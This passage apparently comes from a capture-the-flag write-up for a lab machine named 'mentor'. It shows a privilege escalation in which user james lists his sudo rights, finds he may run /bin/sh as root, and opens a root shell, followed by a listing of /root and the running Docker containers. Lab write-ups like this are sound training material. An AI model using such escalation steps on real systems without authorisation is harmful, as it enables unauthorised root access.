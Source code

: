 James also does not have docker access but may sudo to /bin/sh as root
```bash
james@mentor:~$ sudo -l
[sudo] password for james:
Matching Defaults entries for james on mentor:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on mentor:
    (ALL) /bin/sh
```
```bash
james@mentor:~$ sudo /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/home/james
# cd
# pwd
/root
# ls -la
total 44
drwx------  7 root root 4096 Dec 12 10:25 .
drwxr-xr-x 19 root root 4096 Nov 10 16:00 ..
lrwxrwxrwx  1 root root    9 Nov 10 14:28 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  3 root root 4096 Jun  3  2022 .cache
drwxr-xr-x  3 root root 4096 Jun  3  2022 .local
-rw-r--r--  1 root root    0 Jun  7  2022 logins.log
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r-----  1 root root   33 Mar 12 11:27 root.txt
drwxr-xr-x  3 root root 4096 Jun 12  2022 scripts
drwx------  3 root root 4096 Jun  3  2022 snap
drwx------  2 root root 4096 Nov  8 12:13 .ssh
-rw-------  1 root root 2433 Dec 12 10:25 .viminfo
```
```bash
# docker ps
CONTAINER ID   IMAGE         COMMAND                  CREATED          STATUS          PORTS                       NAMES
3bce68c242fa   docker_web    "python main.py"         43 minutes ago   Up 43 minutes   172.22.0.1:81->80/tcp       docker_web_1
c26466ec1466   docker_api    "python3 -m uvicorn …"   43 minutes ago   Up 43 minutes   172.22.0.1:8000->8000/tcp   docker_api_1
96e44c569292   postgres:13   "docker-entrypoint.s…"   9 months ago     Up 43 minutes   172.22.0.1:5432->5432/tcp   docker_postgres_1
```
